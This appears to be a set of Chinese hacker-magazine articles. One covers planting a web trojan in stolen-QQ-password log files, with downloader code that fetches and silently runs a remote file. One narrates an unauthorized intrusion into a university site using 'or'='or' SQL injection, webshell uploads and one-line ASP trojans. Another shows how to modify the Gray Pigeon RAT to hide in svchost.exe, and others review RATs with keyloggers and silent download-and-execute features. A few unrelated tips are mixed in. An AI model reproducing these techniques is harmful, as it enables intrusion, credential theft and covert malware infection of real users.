现在的盗 QQ 软件都支持 ASP 发信了嘛，会自动生成 QQ.TXT、QQMM.TXT 等文件来保存所盗取的 QQ 号。有些人在使用的时候不修改生成文件的文件名，那么我们就去看看他们的劳动成果吧！如图 1、图 2，怎么样？收获不小吧。


嘿嘿，不过这不是本文的重点，我们下面就去试试如何用这些文件来钓鱼。毕竟又不是只有我一个人在参观别人的劳动成果。原理是利用 IIS 的设置问题，文件名为 XXX.HTML 时，目录下的任何文件都会被解析成 HTML 文件（小编注：这种说法是不正确的，问题出在你的浏览器，是你的浏览器自作主张解析了非 HTML 文件中的 HTML 代码）。

下面我们就从本地搭建一个服务器来试验一下吧。首先在 web 目录下建立一个名为 test.html 的文件夹，我们先拿一个正常的网页测试一下，把一个正常的 html 文件改为 test.txt。浏览一下，怎么样？没问题。如图 3。


下面开始我们的钓鱼了。在这个文件夹里面再创建一个 QQ.TXT 的文件，然后我们去生成一个网页木马，本文中木马就用 Windows 的记事本代替了。将生成的网马内容写到 QQ.TXT 中，为了确保“参观者”的电脑能够顺利运行我们的小马，所以在 QQ.TXT 中我们随便写几个假的 QQ 号和密码来吸引他的眼球，让他多呆一会儿。如图 4；测试一下，成功了吧！如图 5。

```html
x.Open strd, d1, False
x.Send
set f = df.createobject("hker","")
set tmp = f.GetSpecialFolder(2)
path = f.BuildPath(tmp, path)
S.open
S.write x.responseBody
S.savetofile path, 2
S.close
set O = df.createobject(Yuyu, "")
Q.ShellExecute path, "", "", "open", 0
<head>
<title>玉雨 HS06-014免杀网马</title>
</head>
<body>
<center>玉雨 HS06-014免杀网马 QQ:81399773</center>
1215454968 -------- asdueeeee
1215454968 -------- asdueeeee
1215454968 -------- asdueeeee
1215454968 -------- asdueeeee
1215454968 -------- asdueeeee
</body>
<script type="text/jscript">
Function init()
{document.write(Date());}
window.onload = init;
</script>
</html>
```


图 5 测试成功

小马是运行成功了，但是网页上显示的为什么是那个样子呢？你问我？我也不知道（小编注：问题出现在网马上，大家仔细看下图中网马的代码，那个 init 函数，不用多说了吧，窗口加载时载入这个函数，然后返回日期，我们在制作网马的时候一定要注意去掉这些没用的信息呵）。

那么我们就来改进一下，先从网上找一个正常的盗号保存文件，然后把马挂到这上面试一下，如图 6。记得要把 HTML 代码补全，这次我们再试一次吧。嘿嘿！怎么样？没问题了吧？如图 7。

小弟最后想说的是，本文在这里起的只是一个抛砖引玉的作用，因为小弟觉得这个文件的利用还可以更广泛，但是由于小弟的能力实在有限，所以其他的就请大家发挥吧。


图 6、图 7 修改后的网马

> **编辑点评：**
> 之前也有许多朋友，在网上搜索这种记录了 QQ 号码和密码的文件，省了自己挂木马了，而作者却利用它来挂马，文章的技术不是很高，但可以告诉我们，做事情，一定要头脑灵活。

## 过去的通知图标泄漏隐私

疯狂杰泽尔

### 从本文中你可以学到

- 1、如何查看曾经在托盘中出现的托盘图标信息
- 2、如何删除这些信息

### 任务栏过去的通知图标怎么泄漏隐私？

在公共场合使用电脑时，打开“任务栏和‘开始’菜单属性”，在“任务栏”选项卡中点击下方的“自定义”按钮，在“自定义通知”对话框中的“过去的项目”中可以看到以前出现过的通知图标。如果这台电脑有千千静听，可以看到一些以前听过的歌曲；如果有 QQ，可以看到谁在这台机器上用 QQ 了；而且也可以看到登录过的 UC 号，另外也可以看到一些其它的以前运行过的有通知图标的程序，这明显泄漏了隐私（当然前提是这台机器没装还原卡）。

### 如何删除任务栏过去的图标？

点“开始”→运行→输入“regedit”，在注册表中找到 `[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\TrayNotify]`，删除右边的 IconStreams 和 PastIconsStream 两个键，然后结束 explorer.exe 进程，再新建 explorer.exe 进程，或者重新启动，就可以删除以往不活动的图标了。

> **编辑点评：**
> 小编在自己使用的电脑上看见了一些曾经出现在托盘中的黑客程序的图标，以及一些在一台电脑上登录过的 QQ 号码。一些朋友注意保护自身，在别人机器上登录过 QQ 后就会把自己的 QQ 文件夹删除，怎奈系统托盘又泄露机密。Windows 中保存了太多的历史记录，方便了使用的同时，是否带来了更多的安全问题呢？

> **星陨 Think：**
> 转眼间寒冷的一月又过去了，在考场的炮火硝烟后我们终于迎来了盼望已久的寒假以及即将到来的春节。想起小时候，最爱的节日就是过年了。那时候过年的印象就是有大鱼大肉吃，有压岁钱拿，有鞭炮放，有很多儿时的玩伴陪自己疯跑疯玩。老妈总是在叮嘱不要把新买的衣服弄脏了，而当哥哥的却总是带着我们放礼花和鞭炮……小时候的时光总是那么让人怀念！现在我们长大了，会有许多烦恼，总希望能回到小时候无忧无虑的生活。而是走向快乐还是放弃责任呢？我常常一个人思考着类似的种种矛盾的事情，而事实是我们永远不能回到过去了。即使很怀念，也要有一颗积极的心面对现在的生活。努力做一些有意义的事情，让自己充实起来，我们不要保留留有遗憾的回忆。

## 新黑洞新变化

万立夫

### 从本文中你可以学到

- 黑洞远程控制的使用全过程

就在这个寒冷的冬天，黑洞的作者推出了黑洞的最新版本——黑洞远程控制。全新的黑洞已经完全摆脱了木马称谓的束缚，蜕变成为一款真正的远程控制软件。新黑洞不但取消了键盘记录等黑客功能，而且在安全性上得到了极大的提高，并且在功能方面全面模仿国外的远程控制软件 Radmin。

### 一、配置客户端程序

我们从黑洞的官方网站（http://www.138soft.com/），下载最新的黑洞无时间限制的免费演示版本来进行试用。运行黑洞客户端，首先会弹出一个“系统设置”窗口，在此设置黑洞客户端程序所使用的监听端口、连接密码、远程屏幕选项等内容。首先在“输入监听端口”选项中输入一个用于连接服务端的端口。监听端口不能是系统已经使用过的端口，所以用户在输入自己的端口后最好点击“测试”按钮进行测试，如图 1。


图 1 设置监听

再切换到“远程屏幕选项”标签，这里主要是设置屏幕监控的颜色模式，其中包括 65536 色、256 色、16 色三种。用户选择的颜色格式越大，屏幕传输的内容就越清晰，同时传输的速度也越慢。如果将“移出远程桌面壁纸”选项选中，传输的速度也会大大地增加。

设置完成后，点击“确定”按钮启动黑洞远程控制的客户端程序后，将会出现客户端的主界面。黑洞远程控制的


图 2 黑洞控制端主界面

界面简洁大方、一目了然，看上去也和 Radmin 十分地相近，非常便于用户的操作，如图 2。

主界面最上方是菜单选项，通过它可以生成服务端和进行系统设置。菜单下面是功能控制按钮区，黑洞的所有远程控制操作都可以在这里进行。

### 二、配置服务端程序

现在我们开始配置服务端程序。点击“文件”菜单中的“创建安装型服务端程序”命令，在弹出的窗口包括“安装选项”“控制选项”“连接选项”三个选项卡。其中“安装选项”主要用于设置安装时的参数，包括安装时显示提示信息、安装后在桌面和快捷启动栏显示设置图标等；“控制选项”指定服务端开放哪些控制功能，拥有屏幕控制、屏幕查看、文件管理、视频监控、Telnet 等功能，满足绝大部分用户的控制需要；“连接选项”则设置服务端通过何种反弹连接方式连接客户端程序，包括目前所有的固定连接、空间连接和专线连接三种方式，如图 3。


图 3 配置服务端程序

设置好服务端程序各个选项的参数后，可以点击“生成图标”按钮为服务端程序选择一个安装图标。最后点击“生成”按钮即可创建属于自己的安装型服务端程序。生成的服务端程序只有一个可执行文件，并不像 Radmin 的服务端程序还需要其他的 DLL 文件提供支持。除此以外，点击“文件”菜单中的“生成手工运行版本服务端程序”命令，黑洞远程控制还包括一种“手工运行型服务端”。它适合于偶尔使用远程控制的情况，该类型服务端不写入注册表启动，也不会安装为服务，使用完毕后退出程序即可不再受控制。


图 4 服务端选项设置

### 三、远程控制操作

现在我们就来试试黑洞远程控制的控制能力。首先将刚刚配置的服务端程序安装到一台远程计算机中，等待它的自动连接。如果在“安装选项”中设置允许弹出安装消息，将会出现询问窗口，点击“是”按钮将自动安装并启动服务端程序。如果安装选项允许创建桌面快捷方式，那么桌面和快速启动栏将显示配置图标。双击该图标，将出现服务端设置窗口，如图 4。


图 5 设置屏幕颜色格式

点击“选项设置”按钮可以显示创建安装程序时的所有设置，并且可以对其进行修改，修改配置后的服务端程序只有等下次启动才能生效。

当服务端程序上线后，从“在线主机”列表中选择要控制的远程计算机，再从工具栏选择所需的控制命令就可以进行操作了。这里需要提醒用户的是，如果是修改了客户端程序的监听端口，那只有重新启动客户端才会使用新的监听端口，不然服务端程序不能连接成功。全新的黑洞远程控制在安全性上进行了极大的提升，因为它的客户端和服务端之间的数据全部使用 AES 加密算法加密后传输，所以用户无需担心机密文件传输过程中被嗅探，最大限度地保护了正常远程管理的安全性。

工具栏中的“屏幕控制”和“屏幕查看”命令，都可以对远程桌面进行及时的监控。无论用户选择哪一个命令，点击以后都会弹出一个设置窗口，对颜色格式等内容进行设置，如图 5。

只不过“屏幕控制”命令除了监控功能以外，还可以通过鼠标键盘对远程桌面进行控制，而“屏幕查看”就只能进行桌面查看。操作过程中，可以通过 F12 键切换屏幕的观看模式，也可以在屏幕控制窗口标题栏点击鼠标右键进行切换，如图 6。


图 6 黑洞的屏幕控制

全新的黑洞远程控制对“屏幕查看”功能进行了极大的优化，在没有使用任何虚拟驱动技术的情况下，就已经比 Radmin 的“屏幕查看”功能快。如果将监控屏幕的颜色格式设置为 65536 色的话，那结果更加明显。其中的主要原因就是 Radmin 在屏幕查看上是全屏刷新，而黑洞进行屏幕扫描后只对屏幕中变化的内容进行刷新，这样速度的优势就体现出来了。

通过工具栏中的“文件管理”命令，连接成功后将出现文件管理窗口，如图 7。

文件管理窗口的上半部


图 7 黑洞的文件管理

分为本地磁盘目录，下半部分为远程磁盘目录。在文件列表区点击鼠标右键将弹出新建文件夹、删除文件、重命名文件等操作，也可以通过点击文件列表区上面的功能按钮来操作。如果需要上传或下载文件，可以在列表中选择一个或多个对象后，直接拖动来完成。文件传输采用了自动断点传输模式，从传输的进度表中可以看到传输进程。


点击工具栏的“Telnet”命令，从弹出的 Telnet 窗口提示符后输入所需的命令即可，如图 8。


如果想清除屏幕，那么可以选择菜单“清除”命令或直接输入“cls”命令。如果因为输出数据太多，导致键盘无法移动光标的位置，那么清除一次输出就可以搞定。

## 四、卸载服务端程序

对于手工运行型的服务端，服务端程序退出后直接删除服务端文件即可。对于自动运行服务端，如果安装程序创建设置了服务端快捷方式的话，可以点击该快捷方式，在弹出的配置窗口点击“卸载服务端”按钮即可，如图 9。

如果没有创建快捷方式，可以点击开始菜单中的“运行”命令，在弹出的窗口输入“brc_Server.exe /setup”，同样是在弹出的配置窗口点击“卸载服务端”按钮即可。

## 五、小结

经过简单的测试，发现黑洞在各个方面表现得都非常优秀。尤其是软件的稳定性方面，无论用户是进行一项还是多项控制操作，服务端程序的 CPU 占用都保持在 0%。同样情况下，Radmin 的 CPU 占用却在 0%—5% 之间徘徊。不过新黑洞最大的问题就是服务端程序的体积过大，足足有 1.32M 多，希望以后的版本能对服务端程序进行优化，从而减少服务端程序的体积。

> [文章中涉及到的工具黑洞远程控制在光盘中有收录]

> 编辑点评：黑洞一直是小编比较喜欢的远程控制软件之一。自从上次黑洞变为免费软件以后，它就越来越有了向专业远程控制软件发展的趋势，而这款新黑洞恰恰证实了我的这个猜测。记得当时很多黑客程序开始向专业领域拓展。而不管黑洞是收费还是免费，我们看到了一个更为优秀和成熟的国产远程控制软件，感谢陈经韬先生为我们开发出这么优秀的网络程序，期待国产软件更美好的明天！

## 巧用图片分享资料

阿诺

### 从本文中你可以学到：

- 利用相册存放其他格式文件的方法

本人有许多 PDF 的电子杂志书想与他人分享，但是总是懒得去网站，希望能搞得比较简单一点。而现在的免费空间都有诸多的限制，于是想通过剑走偏锋来达到目的。现在网上不是有很多相册吗？就是它了。如果把资料变成相片放在相册中供人家下载，这不就一举两得了。

## 一、合并加密生成图片文件

在这里要作两手准备，一方面就是资料和相片要有机结合，不然相册是不能通过的。另外就是找一个不限量又存放时间长的好相册。第一个我找到了，虽然现在将资料放在图片中的加密软件可是百花齐放，但是都有这样或那样的不足。我推荐的是“绣身文件生成器”，它相对于其它加密软件的优点是：它生成的加密图片文件无须原加密文件，使用 WINRAR 或 WINZIP 即可解密，这点对于下载后的用户而言是很方便的，对于内容提供者也很简单。下载后解压缩后运行主程序即可，可看到如图 1 所示。


> 小提示：因软件本身可能带有加密黑客性质，所以一些杀毒软件监控会误报，如瑞星或江民都会出现拒绝执行提示，只要暂时关闭监控即可。

进行加密操作的步骤：

- 1、点击上方“添加”，选择需要合并到图片中的资料文件，有多个可以选择多个；
- 2、可以选择加密密码；
- 3、点击左下方的“增加定义文件包的图片”，不指定的话会使用左下角默认的图片。图片可事先将密码和打开的方法写上即可。全部定义完成后按上方的“生成”，你就得到了一个含有资料的图片文件。

软件的其它功能就是还有一个“移除”，顾名思义就是将原来打包的文件分离。由于在图片中已声明，所以只要用解压缩软件打开图片文件后就能自行分离。

## 二、上传生成的图片文件

好的相册空间要满足以下条件，即三无：无时间限制，无空间限制，无图片分辨率大小限制。而同时满足这几个条件的并不多，笔者找到了网易相册。使用前申请一个免费账号，具体步骤略过，登录进入相册后，点击相册，建立一个目录，再点击上传。由于上传采用了专门的控件方式，所以需要 IE 通过控件上传图片。也可以另外下载上传控件，安装后就能上传文件，上传的界面如图 2。

选择好相应的图片，按底部“添加”，全部选择后，再按上传。一次最大上传 30M，所以如果要分享很多的大容量资料时需要减小容量上传，上传速度根据不同网络条件有快有慢。当然这里也可以使用其它的不限量相册，但是这里有可能会因文件过大而被网站屏蔽，所以大家尽可能不要上传大于 5M 的合并资料图像。


本文的技术含量不高，主要为方便菜鸟们分享资料，起到一个抛砖引玉的作用。而当初对于如何选择加密程序和找到合适的相册则是大费了一番苦心的，希望以此能够节省广大网友的时间。

[文章中涉及到的工具绣身文件生成器在光盘中有收录]

> **编辑点评：**  
> 网络上的确有很多类似文章中说到的、实现同样功能的软件，虽说都用来加密，但是它们的性能参差不齐，有些朋友使用某些没多大名气的软件后，竟然无法恢复要保密的文件，后悔莫及了。其实感觉 WINRAR 做得很不错了，只要加一个 BT 的密码，相信是很难破解的，当然忘记密码就是你的不对了！我想这篇文章对在网吧奋斗的朋友来说应该是一个福音吧，这下我们的黑软又有了除邮箱外新的去处，喜迁新居咯！[编辑部]

## 漫长的入侵

TOP 小浩（献给娜娜）

### 从本文中你可以学到：

- WebShell 访问不成功时的一种解决办法

本次入侵是随着技术的提高而慢慢成功的，还要多亏一句话木马的帮助！下面是笔者历经 3 次才进去一网站的全过程，这个网站是我们学校的，嘿嘿！

再找就再也找不到了，PING 后发现 IP 地址是一样的，可是就是找不到 web 目录。在 cmd 下看了下版本 Microsoft Windows [版本 5.2.3790]，这是啥版本啊？马上到百度上看了看，是 Windows XP later Service Pack 2，竟然是 XP 系统做服务器？再执行 ipconfig -all 看看：

## 第一次：

```text
Windows IP Configuration

Host Name . . . . . . . . . . . . : asus-database-1
Primary Dns Suffix . . . . . . . :
Node Type . . . . . . . . . . . . : Unknown
IP Routing Enabled. . . . . . . . : No
WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter 本地连接:

Connection-specific DNS Suffix
Description . . . . . . . . . . . : Realtek RTL8139 Family PCI Fast
Ethernet NIC
Physical Address. . . . . . . . . : 00-E0-4C-43-E1-7A
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 202.199.246.114
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway. . . . . . . . . . : 202.199.246.254
DNS Servers . . . . . . . . . . . : 202.199.240.2
```

踩点：随便浏览了几个网页，发现每个页面的区别都很大，可以判断学校的各个院系是独立自己设计或者花钱找机构设计的网站，然后上传到学校提供的空间中。有些页面看起来很专业，有些很幼稚，不够专业！这就给了我机会，因为如果是非“专业人士”按照教科书做的网页，很有可能存在缺陷，那就可能被我利用，达到今天的目的。那么先用谷歌帮我看看吧！关键字填入 site:asust.edu.cn，27,900 项符合的查询结果，学校大，搜索到的结果也不少。翻了几页，觉得就是把学校的院给列了出来，先留着也许以后能用上。因为网站太大，想用旁注或许能快速搞定！用阿 D 注入工具打开网站首页，再点几个页面啥也没看到，我还是看看有没有旁注。因为学校网站太大，服务器上其它网站或许很容易找到漏洞，结果如图 1 和图 2。


### 图 1 无其他虚拟主机

原来是内网的机器，那 3389 就不用想了，它肯定只让外网访问 80 端口。再执行 net user 看看，返回如下信息：

没有其它网站。想到当初报考时学校介绍说外边就是光纤，那估计学校就是租用光纤了，而且固定 IP 地址肯定是学校自己买的服务器而且没有托管，那学校的服务器一定就是在学校的哪栋楼里！


```text
\ 的用户账户
---------------------------------------------------
SUPPORT_388945a0
```

### 图 2 提示本 IP 没有绑定其它域名

旁注不行就先从我学院入手，用阿 D 浏览下结果全是静态（我学院的网页我入学时就没换过，真垃圾！）。接着用阿 D 浏览网站，去别的机构看看。刚随便点开个机构的网站就发现了注入点，结果检测不出任何表，郁闷。就这样又浏览了 1 钟头，结果让我找到个天大的秘密，如图 3。

命令运行完毕，但发生一个或多个错误。估计是没权限！又没加用户权限，也不知道目录让不让写，我没法传任何东西（试过传不上任何东西）！怎么办啊～我先猜出它的账号密码来！当然是用了软件了，结果如图 4。


### 图 3 当前执行权限为 SA

这下权限还挺大的，是报答我不放弃精神吗？当前库：keda、多行执行：支持、当前权限 SA、当前用户 dbo。我开始找网站目录 ing，找到 E:\syxkxt\ 下的目录名和各学院缩写一样，结果挨个进去却没发现一个网页文件。但是在主页中加入这些文件名还存在网站，这里却只有两个文件 syxkxt_Data.MDF、syxkxt_Log.LDF，不知道干什么用的（当时很笨，现在知道了！）。


### 图 4 成功获得密码


### 图 5 站点导航


真够变态的密码：nli@c#，安全意识还是很强的。按套路来扫描字段猜解后台，我一般先猜后台能快些，如果后台限制 IP 或者没猜到，就可以省去猜表的时间。结果很荣幸后台有 IP 地址限制，还真省我的时间！打开那个看看吧！因为这个站还没戏了。哦～鞍山科技大学网络信息中心的版权，看来这个站肯定是它们自己写的或修改的了，而且这么酷的名。

### 图 6 后台管理系统登录

我困了，睡前先总结下！我用明小子的旁注程序和阿 D 注入工具 2.3 都对这个网址进行查询。它们都告诉我啥？IP 地址都是 202.199.240.5，而我在机器上运行 ipconfig 它却说 IP 是 202.199.246.114，而 202.199.240.5 的地址又是科大（鞍山科技大学简称）学校主页的地址。一个 IP 绑多个域名很正常，可在 ipconfig 中看到的 DNS 和科大网站一个网段。我猜想 202.199.240.5 可能是防火墙，所有的服务器都在这后面。

过了很久很久～～到了下学期！其实也没怎么正经研究学习的事，但是还是想再来学校网站看看。其实有经验的人应该看出这是一个数据库服务器，只要把相关的各个学院数据库下载，就可以在相应的后台登录看看，可不知道是否大家和我一样笨。我是真不知道怎么打开！这学期我和同学建立个社区网站 23top.com，才明白具体点的建网站知识，于是又来比划比划！

## 第二次：

踩点的确很重要，上学期我用的 GOOGLE，现在才发现这个网页，如图 5。

这回真是方便了我了！我从最简单的登录窗口中输入 'or'='or' 开始对每个院系管理机构开始检测，其实这是很管用的，因为书本上讲的东西比较落后，很有可能存在这样的漏洞！结果还真的让我找到了，如图 6。

成功进入！本以为弄个什么备份成 ASP 就可以了！可是后台功能太少了\~\~\~有上传的地方我试过传加 . 的 ASP 或者加空格的 ASP 文件都不可以，抓包不知道为什么抓不到，反正弄了两、三天都没有什么结果！最后还是在下载中心找到了，如图 7。


### 图 7 在下载中心找到上传文件的地方

上传了真的还开心啊，如图 8。


### 图 8 文件上传成功

可是当我一访问自己的 WEBSHELL 时，竟然出现了如图 9 的情况。

跟我要密码？这是为什么啊！！经过反复实验还是失败了，这里大家可要记住我放弃的原因啊！就是弹出要密码的对话框！


### 图 9 要求输入用户名和密码

## 第三次：

又过了很久（这次成功了），当我想浏览一个后台的时候，想用 'or'='or' 看看能不能进去，结果发现弹出了如下图 10 的提示。


注意看下面，估计这就是这个网站用的建站系统——foosunCMS v3.1.0930。马上在网上搜索了一番！终于找到了。根据后台登录界面可以肯定它使用的就是这个系统——新云系统。呵呵，开心啊！

### 图 10 出现错误提示

找到数据库的默认地址，然后再复制到地址栏一敲回车，令人兴奋的界面出现了，这里就不抓图了！好，拿到数据库之后使用管理员密码从后台登录进去！通常需要拿到 WEBSHELL 的方法是上传 .jpg 格式的木马，然后用数据库备份成 .asp 格式的。可是这个系统软件竟然没有地方可以备份，郁闷啊！但发现这个系统比较好的地方在于它生成的页面是 .html 的。那好吧，就在自己的机器上做实验吧！看看哪里有插入一句话木马之类的地方。经过了两天的时间，终于让我找到了这个页面，如图 11。

用一句话木马在自己的机器上试验成功后，便上网实验了。成功，开心啊！这么长的时间才搞定，好激动！访问我的 WEBSHELL 却还是如图 9 的情形！我疯了，这是怎么配置的？天！又陷入僵局了，想想如果服务器都这样配置，那我怎么也连接不上了啊！但我还是没放弃，上传了一个 .jpg 格式的 WEBSHELL，然后再用一句话木马传个 .asp 的文件，文件中只写 `<!--#include file="XX.jpg" -->`，XX 是 jpg 木马的名字，然后再连接成功了，如图 12。


后再连接成功了，如图 12。

呵呵，不要问我什么原因，我只是觉得这种方法很有意思，没想到竟然有意外收获。好的，拿到 webshell 就是我的目的了，就这样结束吧。现在可以浏览整个辽科大的网站！

这里向高手们请教下几个问题：

- 1、会弹出如图 9 的要密码的对话框是啥原因啊？为什么我用这种方法就可以了？
- 2、听说一句话木马出错加入容错语句，我可以加的 `<%if request("abc")<>"" then execute request("abc")%>`，还有一个是加 `<%on error resume next %><%execute request("abc")%>`，这两个有什么区别么？

最后觉得风讯系统真的不错，我不知道这个系统是否有过什么安全漏洞，但它能生成静态网页的功能很不错，而且后台功能强大。它有个目录浏览功能，只能看到 .html 的文件，而我建立的 .asp 文件却看不到，本来可以用系统本身生成 .asp 文件，可没办法编辑，因为根本看不到。


> **编辑点评：** 还真够漫长的了，都跨学期了……很多黑友都是在学校，他们把安检自己学校的网站当成了一种挑战和乐趣，难怪最近这么多 EDU 站落难……还好学弟的手还不是很黑的。很多时候入侵就是这样的，总是遇到这样那样的问题，毕竟玩渗透是需要很多方面的技术的。从遇到问题到解决问题，我们就从中学到了知识。所以即使入侵再漫长，即使最后没有拿到权限，还是可以微笑着离开战场！

## 菜鸟也玩 DIY

健健

### 从本文中你可以学到：

- 1、修改灰鸽子服务端版本的方法
- 2、修改灰鸽子服务端插入进程的方法

大家都是菜鸟，菜鸟就会经常用一些牛人出的工具，那我们有没有想过自己也 DIY 一个自己专版的黑客工具呢？下面我就来教大家来 DIY 一个属于自己而且功能强大的灰鸽子。

首先要准备以下工具：

- 1、鸽子一只；
- 2、UltraEdit；
- 3、C32ASM。

接下来我们开工吧！首先我们来配置一个灰鸽子的服务端，我想大家都会吧。为了增强我们鸽子的隐蔽性，这里我给大家几点建议：

- 1、上线端口默认是 8000，建议改成 80；
- 2、服务显示名尽量伪装成与系统类似的服务；
- 3、默认安装路径为 `$(WinDir)\hacker.com.cn`，建议改成 `$(WinDir)\system32\hacker.com.cn`。

鸽子配置好后我们就开始吧！为了做对比我们先运行一下生成的鸽子的服务端，如图 1。


大家看到服务端版本是“鸽子专版”，等我们 DIY 完了我们再看一下。下边用 UltraEdit 打开配好的鸽子的服务端，点击“搜索-替换”，在“查找什么”里边填上“鸽子专版”，“替换为”里边填上你想要的名字，这里我填“健健专版”（注意这里一定要填上 4 个字，是和“鸽子专版”对应，不然你改过以后鸽子就会报错）。

然后点“文件-另存为”随便起一个名字，下边我们运行一下刚改过的鸽子看一下，如图 2。


> 是不是变成“健健专版”啦！

下面我们来改变一下鸽子插入的进程。这里有人会说这不是很好了吗？为什么要改进程？好是好了，但鸽子默认插入的进程是 iexplore.exe，这是大家都知道的，当大家手工查杀时还是会查出来的。我们来改变一下，这样，我们的鸽子更隐蔽，存活的时间会更长。

接下来我们用 C32ASM 以 16 进制的方式打开刚才改过的鸽子服务端，点“搜索-搜索字符串”搜索“iexplore.exe”，找到一处：`\ProgramFiles\InternetExplorer\IEXPLORE.EXE`，如图 3。


IEXPLORE.EXE 是鸽子默认插入的进程，我们可以把它改为其它的进程，如：lsass.exe、services.exe 等。这里我们改为：`\windows\system32\svchost.exe` 这个进程，先复制“`\windows\system32\svchost.exe`”，然后选中 C32ASM 中的

\Program Files\Internet Explorer\IEXPLORE.EXE，点右键粘贴将其改为：\windows\system32\svchost.exe，其余字符用 0 填充，如图 4。找到下一处 iexplore.exe，直接替换成 svchost.exe，余下的字符也用 0 填充，保存，测试一下能否上线，如图 5。上线了，测试成功！


这样一个属于我们自己专版而且功能强大的灰鸽子被我们 DIY 出来了，是不是很有成就感啊！

> [文章中涉及到的工具灰鸽子、UltraEdit 和 C32ASM 在光盘中有收录]

编辑点评：使用 UltraEdit 或者 WinHex 修改程序资源的例子已经很多了，这对于那些想要学习黑客知识的朋友来说，我想还是很有吸引力的，这也许可以激发他们在某些方面的兴趣。使用资源修改的方法改变服务端插入的进程，这种做法还不多见，至少小编是第一次见到。我猜测应该不是所有的进程都可以使用这种方式被改变插入，尤其是某些重要的系统进程。除了修改服务端外，我们还可以修改客户端哦，这个留给读者朋友们自己去完成了。

## 网络新生熊猫宝宝——熊猫宝宝远控

Hxu

- 从本文中你可以学到：
- 熊猫宝宝远控的配置及使用方法

在继国产灰鸽子、黑洞、PcShare 等远程控制工具之后，又一款远程控制工具——熊猫宝宝远控诞生了！作者经过 6 个版本的测试，软件各方面功能已经稳定了。下面就随笔者一起来体验这款工具都有哪些功能吧！

## 一、服务端配置


熊猫宝宝远控提供了多种自动上线方式，包括域名更新 IP 和 FTP 更新 IP。其中域名更新 IP，支持希网域名、花生壳域名和科迈域名，申请好动态域名后我们来配置服务端吧。点击工具栏的“配置服务端”按钮，打开熊猫宝宝远控生成器，如图 1。

先看第一项功能，这就是作者独创的超级广播功能，不管控制端是否在线，都可以让远程主机随时下载并执行指定文件。这项功能需要配合自动上线的“FTP 更新 IP 及广播”中的设置来配置。

第二项就是 FTP 更新 IP 上线了，如果你有 FTP 服务器和 WEB 服务器，就可以选用该方式上线。不过本人比较懒，嫌 FTP 更新 IP 有些麻烦，所以选用第三项，就是 DNS 动态域名上线，这个设置简单，也推荐菜鸟使用，呵呵！我的花生壳域名为 hk60.vicp.cc，然后点击右边的“测试 DNS”按钮，会弹出一个对话框，提示 DNS 指向 IP 为你的公网 IP。第四项为其他设置，这里可以设置上线端口，本文只为做测试，就使用默认端口了。点击“DNS 上线”按钮后即可在同目录下生成熊猫宝宝远控服务端，如图 2。


生成的服务端 server.exe 默认使用 WinUPack 加壳，体积只有 88.1KB，插入 IE 进程。

## 二、更新 IP 及功能测试


登录花生壳域名更新自己的 IP，由于笔者手上没有肉鸡（哪位大虾有的，无私奉献几只吧 ^_^），所以自己运行服务端吧。把控制端的“开始监听”和“上线提示”设置都选上，如图 3。运行服务端后等待上线吧。很快，自己就上线了，如图 4。

在桌面右下角会有提示。我们来看看它的功能吧！功能的选择可以点击工具栏相对应的图标按钮，亦可使用鼠标右键选择。


首先，当然就是“远程屏幕”捕捉功能。个人感觉速度和质量还是不错的！屏幕监控可以设置保存画面、全屏监控、真色彩和延时时间（由于是本机测试，截图效果不好，所以不要这张图了）。


文件管理功能：打开该功能的控制窗口，在左边的下拉框中可以选择硬盘的盘符来进行文件浏览。右边窗口中可以对文件进行：新建文件夹、上传下载、运行、改名、删除、查看、搜索等操作，很是方便！如图 5。


进程管理：可以查看到当前正在运行的进程信息，可对进程进行一些操作，包括：终止进程，查看内存信息、内存路径，保存到文件等功能，如图 6。可是测试中运行服务端后会出现两个 IE 进程，不知道是不是 BUG 了。

注册表编辑：强大的注册表编辑器，提供了 9 种功能，很方便对注册表进行各项操作，如图 7。


服务管理中，可以列出系统服务信息，并可对各种服务进行安装、删除、启动和停止等操作，如图 8。但不知道为什么，本机测试中不能查看到系统服务，难道又是 BUG 吗？呵呵。


超级终端：这个可是小黑们最喜爱的了，就相当于对方的 CmdShell，可以执行任何系统命令，如图 9。


服务端控制：在这里可以开启键盘记录、下载运行文件、卸载服务端、重启主机和关闭主机功能，如图 10。但经笔者测试，键盘记录不支持中文记录。


网络管理：右键选择在线的主机，可以开启端口转发功能、通信查看功能及共享查看功能，如图 11、12、13、14。经测试，通信查看功能可以查看 QQ 通信的一些情况，如协议、目的地址、源地址及字节。

## 三、服务端清除及卸载


熊猫宝宝远控功能确实非常强大，测试时还没有被杀毒软件查杀。控制端提供了对服务端卸载的功能，在服务端控制中就可以卸载服务端了。另外作者还提供了专用的卸载工具，很方便！下面来看看如何手工清除服务端。熊猫宝宝远控服务端默认安装在系统目录 system32 下，文件名为：system.exe，添加为系统服务启动，服务名称：system，显示名称：windows network，描述：windows 网络管理，如图 15。

知道了它的基本特征后，我们就可以手工删除它了！首先，在任务管理器中结束 IEXPLORER.EXE 进程，然后到 system32 目录下把 system.exe 删除，最后用木马辅助查找器把它的服务删除即可。


## 四、小结

测试时发现几个不足之处，就是服务端运行后会出现两个 IE 进程，笔者在两台电脑上测试都一样。另外就是服务管理功能中，不能查看本机的系统服务，不知道是不是个别系统的问题。服务端的隐蔽性不是很好，可以在任务管理器中看到插入的 IE 进程（很明显嘛）。在此向作者老熊提些建议：

- 1. 服务端安装路径改为非系统目录下，这样可以避过绿鹰 PC 万能精灵的监控。
- 2. 加入自定义服务端安装的服务名、显示名称和描述等，自定义安装名称。
- 3. 插入 IE 后，希望能隐藏 IE 进程。
- 4. 控制端的卸载功能不能删除掉服务列表中服务端的服务，希望改进。

最后，祝愿作者的宝宝健康成长！

[文章中涉及到的工具熊猫宝宝远程控制在光盘中有收录]

> 编辑点评：总体来说这款名字可爱的远程控制软件还是很好的，尤其是超级广播功能和网络管理功能是比较值得称道的。我想作者把这款软件命名成宝宝是想要博得杀毒软件的同情吧！呵呵，纯属臆想，不过确实我这里的 McAfee VirusScan 也没有报警，也许就是宝宝刚出生不久的原因吧！等到宝宝稍微流行些的时候，我想也就是它悲惨命运的开始了……不过有攻必有防，技术才会有进步嘛！这款熊猫宝宝远控推荐给广大黑友使用。

## 菜鸟也能入侵网站

黑8（U.S.C）

从本文中你可以学到：
一种简单有效的进入会员账户的方法


